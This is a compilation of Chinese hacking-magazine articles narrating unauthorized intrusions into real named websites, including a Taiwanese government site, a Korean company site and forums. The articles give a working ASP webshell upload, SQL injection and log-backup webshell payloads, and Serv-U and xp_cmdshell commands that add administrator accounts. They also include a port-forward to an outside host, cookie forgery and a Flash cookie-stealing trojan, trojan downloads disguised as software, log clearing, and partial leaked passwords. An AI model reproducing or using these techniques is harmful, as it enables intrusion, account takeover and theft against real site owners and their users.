并不是所有的 PHPWind 论坛都存在这个漏洞，必须是使用了“图片防止盗链”这个插件的版本。该插件基本支持多数 PHPWind 版本，此外一些流行 PHP 程序的防盗链也有相同问题，例如通过 `getpic.php?url=` 参数并在服务端 `readfile($_GET['url'])` 的实现方式。


我们可以构造地址，把论坛数据库配置文件路径（如 `data/sql_config.php`）进行 base64 编码后拼接到 `showpic.php`，即可尝试读取目标文件内容。

### 三、漏洞利用实例

进入 PHPWind 官方网站搜索“防盗链”关键词，可以找到大量使用该插件的网站。以示例站点为例，先访问 `showpic.php` 判断是否存在，再通过构造参数进行文件读取测试。


测试中可在浏览器地址栏提交形如 `http://www.snsnsky.com/bbs/showpic.php?...` 的请求。若成功读取到配置文件，可看到数据库连接账号等信息。


拿到密码散列后可进一步进行口令破解测试；若密码复用，可能影响后台、数据库或 FTP 等服务。文末对整个测试过程进行了总结说明。

我们以 `http://www.snsnsky.com` 这个网站为例，首先检查是否存在漏洞，输入 `http://www.snsnsky.com/bbs/showpic.php`，未提示页面找不到而显示空白，说明存在该文件，也就可能存在漏洞。

此漏洞目前为止还未公布修复程序，我也没有通知官方。不过，PHPWind 上有人正在制作这个插件的升级版本，把 showpic.php 的算法更改了，并使用 Zend 加密，但目前使用的人还不多。

> （文中涉及到的 BASE64 编码转换工具已经收录在光盘中）

### 小编点评：

继 Discuz! 论坛后，PHPWind 论坛终于也爆出了严重的安全漏洞，而且本期一发就是俩，正所谓是“好事成双”。更何况这两个漏洞的利用方法都非常简单，特别适合我们小菜来练手……


## 记一次一波三折的渗透入侵

皇子

最近我做了一个源代码销售网站，既然是源代码销售，那自然要有许多源代码才行，于是一场疯狂的入侵活动就这么开始了……

同一 C 段的主机。顺便把目标站点丢到 whois、站长工具等位置查询旁站，结果发现多个域名与目标相关……


| 主机 | 端口信息 | 备注 |
|---|---|---|
| 61.36.35 | 21,25,80,3389,5631,8080 | 扫描结果 |
| 61.36.2 | 21,25,80,1433,4899,8080 | 扫描结果 |
| 61.36.58 | 21,25,80,3389,5631,8080 | 扫描结果 |
| 61.36.36 | 21,25,80,3389,5631,8080 | 扫描结果 |
| 61.36.37 | 21,25,80,3389,5631,8080 | 扫描结果 |

IMB 虽然不能完全防止 SQL 注入攻击，但对 webshell 上传和使用有很大阻拦……这时路由器扫描报告出来，目标网站开放了 21、25、80、3389、5631、8080 端口。

我在上传点测试发现类型校验较弱，尝试将 ASP 木马改名后上传并抓包分析，继续寻找可利用点。

```http
Content-Disposition: form-data; name="file0"; filename="e:\\脚本木马\\2005.asp"
Content-Type: text/html

<script language="vbscript" runat="server">
If Request("huangzi")<>"" Then Session("ixclaros")=Request("huangzi")
If Session("ixclaros")<>"" Then Execute(Session("ixclaros"))
</script>
```

cookies。再看看上传后的地址，我顿时大喜，地址是 usersite/innfen/asp/...jpg，目标还开了 3389 端口，先连上去。发现使用的是 Win2003 系统，那就好办了……可是在注册用户的时候又碰到一点麻烦，如图4。


我刚一点注册，这提示框就跳出来了……我们提交的数据里有 `username=innfeeasp` 这句，直接把它改成 `innfee.asp`，再次提交后注册成功，利用注册账号登录上去，如图5。


接下来，把木马当作 LOGO 上传，得到 `innfee.asp/asp/...jpg`，webshell 就这样得到了。接着提升权限、尝试添加管理员用户、3389 连接登录等过程并不顺利……

登录后发现 `net.exe` 被限制，改用 `net1.exe`；再通过 `tracert` 判断与目标在同一交换环境；尝试运行 cain 但被精简掉组件。最终重点转向端口与数据库注入信息收集。


开始手工注入，不一会儿 user（用户名）、db_name（数据库名）等就拿到了。注入时需要把 and 变成 `a%nd`，insert 变成 `ins%ert` 等；尝试爆路径与后台地址。

到下午后发现目标机器桌面运行着 tomcat。通过 `query user`、`net localgroup administrators`、`net1 user administrator` 等命令发现隐藏管理员账号痕迹，说明对方也在做权限与痕迹处理。

| IP | 账号 | 密码 | URL |
|---|---|---|---|
| 61.36.38... | ... | 123456 | http://... |
| 59.40.52... | ... | 121212 | http://... |

（图7中的账号密码信息列表）

继续尝试上传 webshell，发现站点对扩展名过滤较弱但受 IMB 限制。改用可远程下载文件的木马功能，将 webshell 下载到站点目录，再进入 1.asp 目录，成功，如图8。


虽然已经绕过 IMB，但浏览和命令执行仍很麻烦，例如目录关键字过滤、部分命令无法使用、数据库问题未完全解决等，后续继续围绕注入点与权限进行利用。

妈了，使用那个来备份数据吧。

查看数据库连接文件才发现居然是内网数据库，而且反向连接也没有连出来，不知道是不可以上网还是防火墙或者别的原因。数据库服务器在 `192.168.1.21`，我又登录那个嗅探的服务器看了看，看到这个主机也是两块网卡，第二个 IP 是 `192.168.0.157`，试试也是连不到数据库服务器，不好办了，只能重新想办法。

嘿啊嘿，噢啊噢，吃了饭回来睡了一觉，才发现不知道什么时候嗅到 FTP 帐户了，哈哈，这回他彻底得完了，如图9。

赶紧使用 FTP 连接一下，完全可以连接，他使用的是 Microsoft FTP，那 FTP 用户自然也就是 Windows 的用户。终端不是开了吗，直接使用这个帐户连接上去，如图10。

| IP | 地址 | 用户 | 说明 |
|---|---|---|---|
| 61.36.36 | 222.90.71.194 | dsadsadsa | ... |
| 61.36.36 | 59.40.52.210 | ek160demo | ... |
| ... | ... | ... | ... |


果然没错，两个帐户是相通的，只不过这个用户没有管理员权限，不能登录终端而已。如果没有记错的话，扫描结果里还有提到 `5631` 端口的开放，嘿嘿，这还客气嘛，使用 webshell 下载回来 pcAnywhere 的 cif 文件，然后破解密码，如图11。

好了，使用 pcAnywhere 连接上去，又使用 FTP 的帐户登录 Windows，虽然权限很小，不过企业管理器可以成功运行，把内网数据下载回来，传到 WEB 目录下就收工了。


> 其实这个网站也不是什么大站，但入侵起来却很费事。如果不是前期踩点比较充分，即使这样一个普通的网站，也会使人觉得寸步难行的。

（文章中涉及到的工具：x-scan、nc.exe、ServU-aspx、cain、lake2 的 eval c/s 木马、PcAnywhere PassWord Crack，已经收录在光盘中）

## 小编点评

这是一篇典型的入侵文章，虽然文章中并没有使用什么新的入侵方法，但作者在入侵过程中却碰到了许多的困难与挫折。可以说，本文先是对目标网站的检测，没有发现入侵的突破点后，又使用旁注的方法入侵了同网段的另一台主机，然后安装 cain 进行嗅探，并最终得到目标网站的帐户和密码。虽然入侵的思路似乎很简单，但在具体的入侵过程中，却碰到了各种各样的困难。相信尝试一次网站入侵，也不会是一帆风顺的，希望在看了本文后，都能够有所收获！

## 入侵台湾某政府网站

hackest[H.S.T]

### 一、确定目标

老是入侵国内的网站也太没什么意思了，于是我决定把入侵的目标选择在台湾省，看看台湾同胞们的网站安全做得如何。在网上搜索了一些台湾的网站，很快就确定了今天的练习目标：`http://www.digitaldivide.nat.gov.tw`，就拿它来试试吧。

### 二、开始行动

入侵目标确定了，接下来就是使用工具扫描注入点了。菜菜嘛，没别的本事，会使用工具而已。扫描注入点当然首选啊 D 了，打开啊 D，单击扫描注入点，再在检测网址栏中填入目标网站的网址 `http://www.digitaldivide.nat.gov.tw`，再单击右边第一个红色的小按钮，啊 D 就开始自动扫描注入点了。很快就扫描出来几个，在工具下面的“可用注入点”框里全部以红色的链接醒目地列了出来。在这些链接上单击右键，选择“注入检测”，就会进入检测界面，再单击“检测”按钮，很快就得出了结果：注入类型为 MSSQL 数据库显错模式，注入权限为 DB_OWNER，如图1。

这时“权限为一级可以尝试使用 LOG 备份得到 webshell”，不过前提是要知道网站的绝对路径。接下来利用啊 D 的列目录功能尝试找到网站的根目录，“相关工具”菜单里的第一个按钮目录查看，但是列了半天居然没有找到 WEB 目录。既然这样不行，就先猜下表名、列名。返回到注入检测页面，单击检测表段，检测出来后发现 `tblAdminUsersp` 这个就是它的管理员表段了，双击表名就开始检测表名了。检测出来后得到的两个表名 `LoginID` 和 `Password` 分别为管理员登录用户名和密码，至此通过注入顺利得到管理员用户名和密码，如图2。

接下来就是找到后台登录进去了。使用啊 D 的管理员口检测扫描了一下，没有把后台扫出来。于是开始手工猜测，直接在 URL 后面加个 `manage`，成功跳转到了管理员登录页面，如图3。使用得到的用户名和密码顺利登录了进去，如图4。在里面看了看，虽然有个上传附件的地方，但发现不能直接上传 ASP 文件，其它可执行（如 asa、cer、htr 之类的）后缀也不能上传，如图5，测试抓包上传也失败了，后台好像利用不了，似乎现在没什么方法继续入侵下去了。


### 三、发现突破口

我继续在后台里转着，突然发现一个很吸引人的地方——网站空间设置，如图6。最吸引我的还是那个“浏览文件夹”啊！我打开这个功能，发现了让人期待的东西，网站的根目录发现了：`C:\inetpub\wwwroot\DIGITAL\NewWeb\`，如图7。没想到居然还是老办法，使用 GetWebshell ah56bug 大众版进行备份。注入点栏填入啊 D 扫描出来的那个注入点：`http://www.digitaldivide.nat.gov.tw/preferential_more.asp?id=97`，数据库填 CF01（就是啊 D 检测出来的当前库），WEB 路径填 `C:\inetpub\wwwroot\DIGITAL\NewWeb\hack.asp`（要带文件名哦），木马代码默认的就可以了（ah 为连接密码，可以改动，我改为了 cmd），至于是数字型字符型就要看啊 D 检测的结果了，从图1中可以看出是数字型的，选上数字型，如图8。按着开始从第一步一直点到第六步，不要太快，一般以返回注入点页面后为准，就是返回了一次注入点所在的页面再按下一步，就可以成功备份出一句话 ASP 木马了，如图9。


图8


图10

文件尾部出现了“Execute”，大致意思就是运行出错，类型不匹配之类的，这就说明已经成功备份出了一句话 ASP 木马。接着使用一句话木马客户端进行连接，连接成功，成功得到返回的目标网站的环境变量信息，如图10。接下来我又上传了一个 ASP 站长助手增强版，如图11。其实并不一定要先传小马后传大马这样的顺序，大家不要被误导了，直接传大马也是可以的，只要服务器允许上传就行。


图11


图9

### 四、提权的困境

webshell 总算是顺利拿到了，可我还是不太满足，想继续下去，拿下它的服务器权限！有了 webshell 办事就方便多了。提权前一般要先看看都开了哪些服务，尽量多得到一些关于服务的信息。使用 ASP 站长助手增强版执行“net start”命令，发现拒绝访问，因为权限不够，不能访问系统目录下的 cmd.exe。服务器上原有的 cmd.exe 不能使用，于是我上传了一个从 2003 系统中提取出来的 cmd.exe，上传到 WEB 根目录下。在“SHELL 路径”里填上 cmd.exe 文件所在目录：`C:\Inetpub\wwwroot\DIGITAL\NewWeb\cmd.exe`，勾上 WScript.Shell，再执行“net start”命令，这一次终于有反应了，成功返回服务开启信息，如图12。但是却没有发现什么可以提权的服务。虽然后 pcAnywhere Host Service 和 Terminal Services 这两个挺讨人喜欢的，但是因为我们目前还没有权限，无法直接使用。


图12

执行“net user”后发现有 ASPNET 这个用户，说明对方系统支持 asp.net，于是我上传了一个 ASPX 木马，访问后发现根本不能使用，看来没有开通对于 ASPX 的支持，可惜了！还有就是大家所熟知的 Serv-U 提权了，跳到程序目录发现安装有 Serv-U，这可是一个好消息！接着我上传 Goldsun 写的 Serv-U ASP 提权木马，准备添加一个用户名为 hackest 的用户并添加进管理员组，命令格式为“cmd /c net user goldsun love /add & net localgroup administrators goldsun /add”，可是这个提权木马有个毛病，就是无论成不成功都会直接提示成功。可事实上在这个网站的提权过程中并没有成功添加用户！郁闷了，权限暂时还是没有办法提上去。明明装着 Serv-U 的，却提示不对，难道管理员把默认的连接密码改了？我扫描了一下 21 端口，发现 Serv-U FTP 版本居然是 2.5，如图13！天啊，开什么玩笑，居然会是 2.5 版本，以前从来没有遇到过这么低版本的 Serv-U FTP 啊！我在 Google 上搜索了一下关于 2.5 版本的提权资料，发现只有几个链接，而且都根本解决不了问题，有些还是 01 年的资料。看来这个 2.5 版本的确有点太老了，真没想到台湾同胞还这么怀旧，难怪 Serv-U 提权的 ASP 木马会失效。提权陷入了困境，怎么办呢……


图13


图15


图16

### 五、希望的曙光

我又跳转到 Serv-U 的安装目录 `C:\Program Files\Serv-U`，发现 2.5 版本的 Serv-U 果然和平时见到的高版本的 Serv-U 不同，文件少了很多，如图14。看来来看去就一个 INI 文件，SERV-U.INI 这个应该就是 FTP 配置文件了。打开这个文件，惊奇地发现 FTP 密码居然是明文存放的！不过却没有对这个文件的编辑权限，想添加一个 FTP 用户实现不了。我把安装目录里的所有文件下载回本地，打开后发现是英文版的，但是没有找到类似 6.0 版本那样的用户权限分配设置，如图15。先不管那些了，赶紧使用得到的用户名和密码连接，发现能够正确连接上，如图16，而且我还发现个别 FTP 用户拥有执行权限！这才是最重要的！提权机会就在了！想要执行命令的话就要在 CMD 下连接登录才行。于是我退出 FlashFXP，在 CMD 下连接登录进去，成功登录（230 User logged in, proceed.），如图17。尝试执行添加用户命令 `quote site exec net user hackest hackest123456`，却提示“501 Cannot EXEC command line <error=2>”，可恶，居然执行不了！


图14


图17

我又上传了一个 net.exe 到网站根目录下，然后再执行 `quote site exec C:\Inetpub\wwwroot\DIGITAL\NewWeb\net.exe user hackest hackest /add`，这一次提示成功了（200 EXEC command successful <TID=33>），如图18。在 webshell 里执行查看用户的命令“net user”，也终于发现有 hackest 这个用户了。接着当然就是把这个用户添加进管理员组了，执行 `quote site exec C:\Inetpub\wwwroot\DIGITAL\NewWeb\net.exe localgroup administrators hackest /add` 也提示成功了（200 EXEC command successful <TID=33>）。再在 webshell 里执行“net user hackest”，发现此用户已经在管理员组了。


……弄通了，如图20。至此，我就成功拿到了服务器的最高权限并且完全控制了这台服务器。最后就是把上传的工具删掉，清理一下日志了。


### 六、最后的突破

用户已经成功添加了，最后的事情就是连接登录了。可是当我满怀高兴地使用 3389 连接时，却发现连接不上！……我仔细检查后发现端口的确是 3389，那连接不上的原因就只有一个了，是被那万恶的防火墙拦住了！对了，还有 pcAnywhere，连接端口是 5631……这种小 case 是难不倒我们的，解决的方法就是给它来个端口转发。

```bash
quote site exec c:\inetpub\wwwroot\DIGITAL\NewWeb\cx.exe -slave 219.135.10.7 51 127.0.0.1 3389
iox.exe -listen 51 2007
```

命令的意思是把服务器上的 3389 端口连接数据转发到远程主机的 51 端口，然后在本地运行监听并转发到 2007 端口。这样就实现了连接本机 2007 端口等于连接远程主机 3389 端口的目的，如图19。最后再使用远程桌面连接“127.0.0.1:2007”就可以连接上对方的服务器。

> （文字中涉及到的啊D 2.32 注入工具、ASP 站长助手增强版、Icx.exe、GetWebshell ah56bug 大众版、pcanypass，已经收录在了光盘中）


## PHP 注入大学生创业网

### 一、PHP 注入缘由

玩入侵也有一段时间了，不过以前入侵的全是 ASP 的网站，还从来没有入侵过 PHP 的网站呢！听说 PHP 注入也挺好玩的，所以我决定学习一下。于是查看了几个 PHP 注入教程后，就找了一些 PHP 的网站来练练手，目标站点初步锁定为了大学生创业网。

### 二、开始作战

打开大学生创业网的主页，通过链接可以明显看到使用的是 PHP，随后打开一个链接，地址也挺诱人的，是那种经典的“php?id=”的页面。虽然 PHP 注入和 ASP 注入并不完全相同，但是判断是否存在注入的方法还是一样的。首先，在地址后面加上经典的“and 1=1”，回车后页面返回正常……再改成“and 1=2”，回车后，发现返回的页面与正常页面不同了，如图2。初步确定此链接存在注入漏洞！PHP 注入与 access 注入是类似的，一般都是利用注入点获得我们想要的管理员密码等信息。


既然注入存在，那下一步就是判断 MySQL 的版本了，我在地址后面加上“and ord(mid(version(),1,1))>51 /*”，提交后返回了正常页面（由于空格在浏览器中被解释为“%20”，所以大家要记住“%20”就是空格的意思哦），说明 MySQL 的版本在 4.0 以上（MySQL 4.0 以上的版本都支持 union 查询）。提交“and ord(mid(version(),1,1))>51 /*”返回页面正常，证明数据库版本号的第一个字符的 Ascii 码大于 51，即其数值大于 3，也就说明了数据库是 MySQL 4.0 以上版本，支持 union 联合查询）。现在已经判断出服务器支持 union 查询了，接下来就是判断字段数了。

在 URL 后面填上“order by 10 /*”，提交后返回正常。看来字段数大于或等于 10。再提交“order by 20 /*”，还是返回正常页面，看来字段数大于等于 20 哦。我们继续猜，再次提交“order by 25 /*”，发现返回页面不正常，字段数应该小于 25 了。这样一直反复猜测，逐步缩小范围，当猜到 23 的时候，页面正常，24 的时候页面不正常，说明字段数为 23！

再下一步就是 union 查询了，在 URL 后面提交“and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 /*”，我们可以看到当前页面显示出来了 4、12、13 三处，如图3！


与 MSSQL 相似，MySQL 也有内置函数，比如 user()、version()、database()，分别就是当前连接用户、版本、当前数据库。我们分别把图3中的 4、12、13 三处替换为 user()、version()、database()，提交后返回了我们想得到的信息，如图4。当注入权限足够大的时候，我们可以使用 load_file() 函数读取服务器上任何存在的文件，但前提是要有 root 权限，还要知道文件的绝对路径，然后再把路径转换成十六进制后填到“()”里再提交。不过这个注入点不是 root 权限，我在使用 load_file() 函数读文件的时候，发现没有成功读取出来，不过这些并不影响我们继续注入。

### 三、直捣黄龙

不能使用 load_file() 函数读文件并不能阻止我们继续注入。


图8

进而登录后台，再想办法拿到 webshell。我们回到原来 union 查询那里继续猜解。接下来就是猜出管理员表名了，提交“and 1=2 union select 1,2,3,user(),5,6,7,8,9,10,11,version(),database(),14,15,16,17,18,19,20,21,22,23 from admin /*”，返回不正常页面，说明不存在 admin 表。再提交“and 1=2 union select 1,2,3,user(),5,6,7,8,9,10,11,version(),database(),14,15,16,17,18,19,20,21,22,23 from manager /*”，这一次返回了正常页面，说明存在 manager 表，然后就是猜测管理员用户名和密码了。不过在这之前我们得先做一件事，就是要找到后台的管理员登录页面……幸运的是这个后台倒是不难找，直接在网址后面加个 admin 就跳出来了。查看一下登录页面的源代码，发现管理员登录的用户名字段为 name，密码字段为 password……我们把 4 替换成 name，把 12 替换成 password，也就是提交“and 1=2 union select 1,2,3,name,5,6,7,8,9,10,11,password,13,14,15,16,17,18,19,20,21,22,23 from manager /*”，成功返回了用户名和密码。

然后登录后台了，如图8。

### 四、败走麦城

本以为登录进后台，想办法上传一个 PHP 木马就会结束这次入侵旅途，却没想到后台里对上传做了限制，把我传上去的 PHP 木马的后缀全部强行改成了 GIF 后缀！真是怎一个愁字了得啊！我又把后台仔细研究了一下，发现能够上传的地方不只一个，后台在添加新闻信息的地方还有别的好几处上传文件的地方！这套系统不可能把全部上传的都过滤了吧。

打开上传图片页面，如图9，直接上传了一个 PHP 后缀的木马，没有提示上传成功，也没有提示上传失败，查看上传页面的源代码也没有找到关于木马路径之类的信息。难道进了后台也等于没进去？拿不到 webshell 的心情的确不好受啊，少说也猜测了很久，好不容易才进入了后台，居然败得一塌糊涂！

### 五、老马识途

万般无奈之下，我怀着悲愤的心情打开了“插入图片”页面，奇怪的是居然页面是空白的，难道被过滤了，如图10。页面空白，不会代码也空白吧，于是查看源代码，发现内容不是空的！使用 Ctrl+F 查找 .php，第一个是当前页面，再查找下一个，发现一个 PHP 后缀的文件，如图11。会不会这个就是我的 PHP 木马地址呢？我打开这个页面，哈哈，终于看到 PHP 木马的登录界面了，如图12。登录进去后，发现对方使用的是 Windows 系统，如图13！嘿嘿，这回系统权限就有可能拿到手了。如果是 *nix 系统的话，对我来说还有挺大阻碍的，因为我对 *nix 系统根本不熟悉，甚至没见过呢！

### 六、终结服务器权限

既然是 Windows 系统就好办多了，拿出 superscan3.0 扫了一下 21 端口，发现安装有 Serv-U，如图14。关于利用它进行提权的教程文章已经是数不胜数了。这个 PHP 木马就已经包含有 Serv-U 的提权程序，就是那个 Serv-U EXP 了（严格来说其实这个也不是 EXP），如图15。二话不说，直接添加个用户就是了，命令格式为“net user username password /add”、“net localgroup administrators username /add”。

查看返回信息，用户已经成功添加进去了，特别是那句“Recv: 200 EXEC command successful (TID=33).”说明命令已经成功执行了，如图16。

已经有了账户名和密码，接下来就是连接登录远程桌面了，可是却连接不上，难道是防火墙搞的鬼。想使用 PHP 木马执行一下 DOS 命令，可是老是出错，看不到回显，如图17。好在发现这个服务器上还支持 ASP、ASPX 木马。于是我又上传了一个 ASPX 木马，利用读取注册表的功能，把存放在注册表里的远程桌面服务器连接端口读了出来，原来是 60000 呀，如图18。我重新进行连接，终于成功登录上去了，这台服务器的配置还不错，还是 4 个 Xeon 3.2GHz 的 CPU 哦。

### 七、后记

后来在网站上看到还有一个 PHPWind v5.0.1 的论坛，让我吃惊的是仅用猜测出来的网站后台管理员用户名和密码竟然可以登录进 PHPWind 的后台，在 PHPWind 后台同样可以拿到 webshell 的哦。管理员叔叔们要小心了，把密码都设成同一个可不是一个好习惯！由于本文是我的第一次 PHP 注入实习，而且是纯手工注入，所以不妥之处还请赐教。其实 PHP 注入挺好玩的，不要老是拿着工具到处去注入 ASP 的网站了，去尝试一下别的新东西吧，会有意外的惊喜的。

（文中涉及到的工具 superscan3.0、phpspy2006_saiy 修正版，已经收录在了光盘中）

## LEADBBS 的入侵

图1

我一同学喜欢逛一个关于红楼梦的论坛 http://www.***mansions.net/Boards.asp，如图1。于是我就跟着上去看了看，发现这个论坛使用的是 LEADBBS。对于这个论坛系统，我以前接触得比较少，于是决定好好研究一下这个论坛。

### 一、默认数据库下载

相信菜鸟们对于动网论坛最大的印象就是默认数据库了，但是这个默认数据库并不是动网的专利，而是论坛程序的一个通病。严格意义上说，这并算不上是什么漏洞，只能说是由于管理员的疏忽才导致我们可以利用。LEADBBS 的默认数据库路径是 data/leadbbs.mdb，我们可以根据这个默认路径来下载得到数据库文件。其实对付一些论坛程序，默认数据库下载的确是一种很傻瓜式的方法，但只要我们能够下载成功，这种傻瓜式的方法就会造成很大的危害。

我们如何找到一个论坛程序的默认数据库路径呢？很简单，直接从网上下载一套这个论坛的程序，然后在本机寻找一下就知道了。

我在 IE 浏览器的地址栏里输入 `www.***mansions.net/data/leadbbs.mdb`，弹出了一个下载窗口，数据库有 400 多 M，不管了，先下载了再说。

下载完之后我使用明小子注入工具的“数据库管理功能”打开数据库……执行 SQL 语句：`select * from leadbbs_user where id=2`（2 为管理员的 ID），同样可以得到管理员的信息，如图2。

```
KNDJDAMAMMCFEGI...; gbtoyTime=...; gbtoyAtB0=1003; gbtoy_pass=...; user=starfairy
```

我们把它复制到明小子的 COOKIES 一栏，点击修改，就会成功登录了（如果一次不成功可以多试几次）。

如果感觉明小子用着不太舒服，可以使用 MyBrowser……修改 COOKIES 后刷新即可，如图3，登录成功了。

把这个 MD5 复制下来，到 `www.cmd5.com` 上去在线破解，结果却是“Not Found”……那能不能直接使用 MD5 登录呢？

### 二、COOKIES 欺骗

COOKIES 简单地说就是浏览一个网站后在本地生成的文件……而 COOKIES 欺骗就是通过修改 COOKIES 来达到欺骗登录的目的。

经过测试，LEADBBS V3.14 存在 COOKIES 欺骗……在 COOKIES 栏获得 COOKIES 字串，比如：

```
AJSTAT_ok-pages=16; ...; pass=sry1994212&user=kylincrystal
```

我们只需要改动 `pass` 与 `user` 字段：把 user 改成管理员用户名，把 pass 改成管理员 MD5，例如 `pass=...&user=starfairy`。

```
AJSTAT_ok-pages=16; ...; pass=...&user=starfairy
```

### 三、对前台的利用

有时拿下论坛前台后，接下来想的是拿下后台。其实前台也有很多可利用之处……管理员常会忽略前台的帖子，我们恰好可以利用这一点。

- 发布附件供下载  
  以管理员身份发帖并上传体积较小的木马，伪装成“强悍软件”诱导下载……也可通过捆绑方式降低被发现概率。

- FLASH 木马  
  通过制作一个 FLASH 木马来做事……运行 SWF 木马插入器（如图4），选择 FLASH 文件并插入木马地址后上传，再在论坛发帖嵌入。

Macromedia Flash MX 运行后，点击“文件”→“打开”，找出你要编码的文件。展开界面下方的“动作/帧”栏，再展开“动作”→“浏览器/网络”项，点击其中的“getURL”命令，在右边窗口中的“URL”里输入我们的网页木马地址，窗口方式为“_blank”，“变量”设置为“使用 GET 方式发送”，在下方的代码窗口中将出现 `getURL("http://网页木马地址", "_blank", "GET");`，就能生成一个 FLASH 木马了。

### 四、对 COOKIES 的窃取

上面的那些操作都是在有了对方数据库、能够构造 COOKIES 的大前提下进行的，但如果我们没能下载到默认数据库该怎么办呢？我们就必须想办法来窃取 COOKIES 了。打开 FLASH8，新建一个 FLASH 文件，然后加入如下代码：

```javascript
onClipEvent (load) {
  _url="javascript:...";
  // 省略：通过 frame、document.cookie 等处理
  getURL(_url);
}
```

我们需要一个 ASP 空间，可以到 `http://www.freewl.com/freespace/asp/` 上去找一下，这里有很多免费空间。我们把那个窃取 COOKIES 的 FLASH 也放到自己的空间上，然后到论坛发帖，插入 FLASH，这样浏览的人 COOKIES 就会在我们的空间上保存下来了。这样就可以再次做增强录取。但是如果论坛禁用了 Flash，或将 Flash 改为链接格式，那这种方法就不能成功了。我试了一下，成功率不是太高，明明有很多点击，但是只有一些 COOKIES 发到了我的空间。

对于默认数据库的下载，我们可以使用挖掘机、网站猎手一类的工具去寻找。经过测试，构造关键字为“LeadBBS v3.14 耗时窃秒”效果最佳，如图5，刚检测一会儿就发现了很多。

## 五、总结

文章到此就结束了，本来想看看后台的，但是发现红楼论坛上的管理页面给改了，就没有进入后台。对于 COOKIES 的窃取，因本人水平有限，可能在某些地方描述得不够详尽，也请高手指教。当时我到网上找了找窃取 COOKIES 的方法，便翻到了这段代码……

（文章中涉及到的明小子旁注入侵工具、IcodeToSWF、挖掘鸡，已经收录在了光盘中）

### 一、锁定目标

在邪恶八进制的论坛上看到某牛人说技术要进步就得去黑韩国网站。搞不清楚为什么要这么说，难道韩国网站的安全性还要高过欧美等国家的不成？就凭上面那句话，小菜我今天就要去找几个韩国网站来练练手，看看韩国网站的安全性到底高到了何种程度。如何寻找韩国网站呢？可以使用啊D注入工具，在啊D的地址栏输入 google，然后在搜索框输入“inurl:kr+asp?id=”，搜索网页语言选为韩文。很快就会找出来一大堆存在注入的站点了。来从中随便选择一个吧，比如 `http://www.dalong.co.kr/` 这个网站。

### 二、战斗打响

啊D 对其检测出来的注入点为 `http://www.dalong.co.kr/board/qa_list.asp?id=dlboard1`，注入类型是 MSSQL，权限为 DB_OWNER，如图1。由于是韩国网站，就不打算解表名和列名。

先得到管理员相关信息，然后再登录后台。因为就算我真的进入了后台，也未必能在后台搞到 webshell，毕竟看不懂韩文嘛。思路初步确定为利用 DB_OWNER 权限 LOG 备份写进一句话 ASP 木马。但前提是要找到 WEB 路径，这个不难实现，使用啊D的列目录功能，然后慢慢找就可以了，最后找到 WEB 根目录为 `D:\www\dalong`，接着就是 LOG 备份了。这次就用手工的吧，工具虽好，但使用手工方法更可以加强理解。

使用 IE 分别在注入点 `http://www.dalong.co.kr/board/qa_list.asp?id=dlboard1` 的后面执行：

```sql
alter database dalong2002 set RECOVERY FULL
backup log dalong2002 to disk='c:\\cmd' with init
create table cmd(a image)
insert into cmd(a) values('<%Execute(request("cmd"))%>')
backup log dalong2002 to disk='D:\\www\\dalong\\hack.asp'
drop table cmd
```

大致意思就是在数据库里创建一个 `cmd` 表，再往表里插入内容，再备份到 WEB 目录上去，删除创建的这个表。然后访问一下备份出来的文件 `hack.asp`，如图2，注意文件底部出现“Execute”了，大致意思就是类型不匹配之类的。这就说明一句话木马已经成功备份出来了，这可是一句话木马的标志哦。

接下来当然是使用客户端连接了，连接成功后如图3所示。虽然页面乱码，但可以清楚地看到返回了服务器的环境变量信息。我利用一句话木马成功上传了一个站长助手，如图4。至此，webshell 就已经完全得到了。主页有修改权限，可以说已经得到网站的控制权了。

### 三、提权之路

得到 webshell 之后干什么呢，就这么停手还是继续入侵？我决定继续入侵下去，目标是服务器的系统权限！不为别的，就因为对方开了 3389 服务，如图5。

提权最常见的就是利用 Serv-U、pcanywhere 等。我在 webshell 里执行 `net start` 看了看，发现 FTP 服务使用的是 FTP Publishing Service；这可是微软的 FTP 服务软件，暂时我还没有办法利用它来提权。至于 pcanywhere，根本没有安装。还有其它杂七杂八的提权方法也都不怎么管用。思前想后还是觉得只有一条路可以走了——查找数据库连接文件，得到高权限的 SQL 连接用户和密码，然后连上去再执行相关命令。

找到注入点对应的文件 qa_list.asp，查看了一下它的源代码，发现相应的数据库连接文件为 include 目录下的 qadbcon.asp，如图6。我跳转到相应目录，打开 qadbcon.asp 查看其内容，如图7。可以看到和图1相同的当前库，都是 dalong2002，当前用户为 dladmin_sa。但是从检测结果来看，这个连接用户只有 DB_OWNER 权限，还不能执行系统命令。使用得到的 SQL 用户名和密码连接数据库后，证实的确不能执行命令。

图7

权限不够，需要 SA 权限才可以执行命令。看来还得找到相应的 SA 数据库连接文件才行！在这里我不得不提到 sqlrootkit，其界面如图8所示。功能嘛，可以检测相关组件，组件如果不存在的话还可以恢复哦。

图8

使用得到的 SQL 用户和密码登录进去，提示“郁闷，权限不够估计不能执行命令！”。这说明当前连接用户不具有执行系统命令的权限了，如图9。

图9

### 四、直捣黄龙

DB_OWNER 的 SQL 连接用户是不能执行系统命令的，所以无法达到通过 SQL 操作来添加系统用户的目的，必须要有一个具有 SA 权限的 SQL 连接用户才行！继续在 webshell 里到处逛，无意中发现还有一个貌似是数据库连接文件的 ASP 文件 WebTicketDBConnect.asp，打开一看，发现用户名是 sa，密码也和先前发现的不同了。晕啦，死马当活马医，使用新得到的 SQL 用户密码在 sqlrootkit 上登录，哈哈，这次提示“恭喜！sql server 最高权限了”，是 SA 权限，如图10。检测一下相关组件，发现全部组件都存在，如图11。这再好不过了，其实只要 xp_cmdshell 组件存在就可以执行系统命令了。

图10

图11

在“系统命令”里输入要执行的命令“net user”，在“请选择运行程序的组件”下拉列表中选择“xp_cmdshell”，然后执行，成功返回了系统用户信息，如图12。接着再执行“net user guest /active:yes”“net user guest password”“net localgroup Administrators guest /add”三条命令，意思是先激活 guest 用户，然后设一个密码，再把 guest 用户添加进管理员组。至此成功添加了具有管理员权限的系统用户。当然了，如果你不想使用 sqlrootkit 的话，也可以使用 SQL 连接工具进行连接，比如 SQLTools 就是一个很好的工具。使用 SQLTools 的话要多一项，就是数据库名称，不过这个也可以通过查看 SQL 数据库连接文件得到。

图12

比如我们使用 SQLTools 连接后执行“net user guest”命令查看一下 guest 用户的信息，如图13。由于是韩国的服务器，

## 一个人的战争

